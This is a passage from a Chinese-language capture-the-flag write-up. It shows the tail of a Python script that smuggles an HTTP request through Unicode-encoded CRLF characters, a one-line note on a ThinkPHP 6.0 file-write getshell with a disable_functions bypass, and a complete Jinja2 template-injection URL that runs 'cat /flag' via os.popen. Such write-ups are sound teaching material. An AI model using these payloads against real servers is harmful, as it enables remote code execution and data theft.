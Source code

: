 ```python
-return x
--------------------------a6a8d18957515a9a--

""".replace('\n', '\r\n').replace('+', '\u012b')

payload = payload.format(len(body), body)   \
        .replace(' ', '\u0120')             \
        .replace('\r\n', '\u010d\u010a')    \
        .replace('"', '\u0122')             \
        .replace("'", '\u0a27')             \
        .replace('[', '\u015b')             \
        .replace(']', '\u015d')             \
        + 'GET' + '\u0120' + '/'

print(requests.get('http://101.200.195.106:33322/core?q=' + payload).content)
#print(requests.get('http://127.0.0.1:8081/core?q=' + payload).content)

```

然后访问一下`/?action=evil2`就行了

### ezExpress

配置错误，直接给flag了

### easy_thinking

TP6.0的任意文件写：

https://www.smi1e.top/thinkphp6-0-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E5%86%99%E5%85%A5%E6%BC%8F%E6%B4%9E/

getshell后用GC_UAF绕过disabled_functions

## 安恒新春抗疫

### easyflask1

没啥意思的题，权限还给的root

```
/%7B%set%20x,a1,a2,a3,a4,a5,a6,a7,a8,a9,a10,a11,c=request['args']['x'],request['args']['a1'],request['args']['a2'],request['args']['a3'],request['args']['a4'],request['args']['a5'],request['args']['a6'],request['args']['a7'],request['args']['a8'],request['args']['a9'],request['args']['a10'],request['args']['a11'],request['args']['c']%%7D%7B%7B""[x*2%2Ba2%2Bx*2][x*2%2Ba3%2Bx*2][-1][x*2%2Ba4%2Bx*2]()[224][x*2%2Ba5%2Bx*2][x*2%2Ba7%2Bx*2][x*2%2Ba6%2Bx*2]['eval'](c)%7D%7D?x=_&a1=getitem&a2=class&a3=mro&a4=subclasses&a5=init&a6=builtins&a7=globals&c=__import__('os').popen('cat%20/flag').read(
```

### 其他三道Web

安恒什么题都收，质量太低了
